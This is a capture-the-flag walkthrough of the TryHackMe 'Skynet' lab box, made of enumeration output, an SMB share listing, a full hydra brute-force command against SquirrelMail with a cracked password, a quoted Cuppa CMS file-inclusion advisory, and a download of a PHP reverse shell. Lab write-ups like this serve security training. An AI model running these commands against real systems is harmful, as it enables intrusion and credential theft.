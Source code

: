 kali@kali:~/oscptraining/tryhackme$ nmap -sV -sC -o nmap 10.10.85.80
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-24 22:16 EDT
Nmap scan report for 10.10.85.80
Host is up (0.33s latency).
Not shown: 994 closed ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 99:23:31:bb:b1:e9:43:b7:56:94:4c:b9:e8:21:46:c5 (RSA)
|   256 57:c0:75:02:71:2d:19:31:83:db:e4:fe:67:96:68:cf (ECDSA)
|_  256 46:fa:4e:fc:10:a5:4f:57:57:d0:6d:54:f6:c3:4d:fe (ED25519)
80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Skynet
110/tcp open  pop3        Dovecot pop3d
|_pop3-capabilities: AUTH-RESP-CODE TOP PIPELINING SASL UIDL CAPA RESP-CODES
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
143/tcp open  imap        Dovecot imapd
|_imap-capabilities: ID LOGINDISABLEDA0001 SASL-IR more post-login have capabilities listed OK Pre-login LITERAL+ IDLE ENABLE LOGIN-REFERRALS IMAP4rev1
445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: SKYNET; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h40m00s, deviation: 2h53m13s, median: 0s
|_nbstat: NetBIOS name: SKYNET, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: skynet
|   NetBIOS computer name: SKYNET\x00
|   Domain name: \x00
|   FQDN: skynet
|_  System time: 2020-10-24T21:17:36-05:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required   

current possible directory with gobuster
/admin (Status: 301)
/config (Status: 301)
/css (Status: 301)
/index.html (Status: 200)
/index.html (Status: 200)
/js (Status: 301)
/squirrelmail (Status: 301)

seems like we are really going down the rabbit hole, let's go back to what we have seen from the nmap result.
we could see that imap and pop3 ports are open.

taking some reference from google
IMAP and POP3 are the two most commonly used Internet mail protocols for retrieving emails. Both protocols are supported by all modern email clients and web servers. While the POP3 protocol assumes that your email is being accessed only from one application, IMAP allows simultaneous access by multiple clients.

some really good guide on smb enum
https://0xdf.gitlab.io/2018/12/02 pwk-notes-smb-enumeration-checklist-update1.html


kali@kali:~/oscptraining/tryhackme/Skynet$ smbmap -H 10.10.85.80
[+] Guest session       IP: 10.10.85.80:445     Name: 10.10.85.80                                       
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        anonymous                                               READ ONLY       Skynet Anonymous Share
        milesdyson                                              NO ACCESS       Miles Dyson Personal Share
        IPC$                                                    NO ACCESS       IPC Service (skynet server (Samba, Ubuntu))

There's a share called "anonymous" that has read access. Lets try connecting to investigate.

kali@kali:~/oscptraining/tryhackme/Skynet$ smbclient //10.10.85.80/anonymous -u anonymous  
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Sep 18 00:41:20 2019
  ..                                  D        0  Tue Sep 17 03:20:17 2019
  attention.txt                       N      163  Tue Sep 17 23:04:59 2019
  logs                                D        0  Wed Sep 18 00:42:16 2019
  books                               D        0  Wed Sep 18 00:40:06 2019

                9204224 blocks of size 1024. 5370044 blocks available

sidetracked for quite a while as i found full of machine learning related books in the books dir, got them copied out to my host XD haha

the attention.txt file
A recent system malfunction has caused various passwords to be changed. All skynet employees are required to change their password after seeing this.
-Miles Dyson

going into logs
log1 seems like a list of possible usernames

let's try to use hydra for logging in, got a great help from this page
https://redteamtutorials.com/2018/10/25/hydra-brute-force-https/

basically just do the following
Change the <Login page> this value has to start with “/” backspace.
Change <Request body> with the format from the page. We do need to modify the username and password. Replace the failed username with ^USER^ and the failed password with ^PASS^. This change will allow hydra to substitute the values.
Change the <Error Message> with the failed login error message.
Change the <IP Address> with either an IP address or hostname.
Change the <User> with either username or username list.
Change the <Password> with either a password or password list.

Layout of command: hydra -L <USER> -P <Password> <IP Address> http-post-form “<Login Page>:<Request Body>:<Error Message>”

hydra -l milesdyson -P log1.txt 10.10.213.235 http-post-form "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:Unknown user or password incorrect."

now we get the credentials as 
login: milesdyson   password: cyborg007haloterminator

kali@kali:~/oscptraining/tryhackme/Skynet$ smbclient //10.10.213.235/milesdyson -U milesdyson
Enter WORKGROUP\milesdyson's password: 
Try "help" to get a list of possible commands.
smb: \> pwd
Current directory is \\10.10.213.235\milesdyson\


side tracking to download shit for fun 
smb: \> mask ""
smb: \> recurse ON
smb: \> prompt OFF
smb: \> mget notes
getting file \notes\3.01 Search.md of size 65601 as 3.01 Search.md (17.9 KiloBytes/sec) (average 867.4 KiloBytes/sec)
getting file \notes\4.01 Agent-Based Models.md of size 5683 as 4.01 Agent-Based Models.md (4.2 KiloBytes/sec) (average 846.1 KiloBytes/sec)
getting file \notes\2.08 In Practice.md of size 7949 as 2.08 In Practice.md (5.7 KiloBytes/sec) (average 825.2 KiloBytes/sec)
getting file \notes\0.00 Cover.md of size 3114 as 0.00 Cover.md (2.1 KiloBytes/sec) (average 803.9 KiloBytes/sec)

(base) mycomp:kali teolw$ scp kali@IP:/home/kali/oscptraining/tryhackme/Skynet/morefreenotes.zip /Users/teolw/Documents/kali
kali@IP's password: 
morefreenotes.zip                             100%  370KB  64.3MB/s   00:00    


kali@kali:~/oscptraining/tryhackme/Skynet$ cat important.txt
1. Add features to beta CMS /45kra24zxs28v3yd
2. Work on T-800 Model 101 blueprints
3. Spend more time with my wife

seems like there's a special directory /45kra24zxs28v3yd, lets do a gobuster on it
kali@kali:~/oscptraining/tryhackme/Skynet$ gobuster dir -u 10.10.240.119/45kra24zxs28v3yd  -x php,txt,cgi,css,py,html -w /usr/share/dirb/wordlists/common.txt

/administrator
we could see that it is running on cuppa cms, so let's try searching if there's any exploit

# Exploit Title   : Cuppa CMS File Inclusion
# Date            : 4 June 2013
# Exploit Author  : CWH Underground
# Site            : www.2600.in.th
# Vendor Homepage : http://www.cuppacms.com/
# Software Link   : http://jaist.dl.sourceforge.net/project/cuppacms/cuppa_cms.zip
# Version         : Beta
# Tested on       : Window and Linux

  ,--^----------,--------,-----,-------^--,
  | |||||||||   `--------'     |          O .. CWH Underground Hacking Team ..
  `+---------------------------^----------|
    `\_,-------, _________________________|
      / XXXXXX /`|     /
     / XXXXXX /  `\   /
    / XXXXXX /\______(
   / XXXXXX /          
  / XXXXXX /
 (________(            
  `------'

####################################
VULNERABILITY: PHP CODE INJECTION
####################################

/alerts/alertConfigField.php (LINE: 22)

-----------------------------------------------------------------------------
LINE 22: 
        <?php include($_REQUEST["urlConfig"]); ?>
-----------------------------------------------------------------------------
    
seems like we must do a php code injection, so let's use php reverse shell
lets get this
kali@kali:~/oscptraining/tryhackme/Skynet$ wget https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php













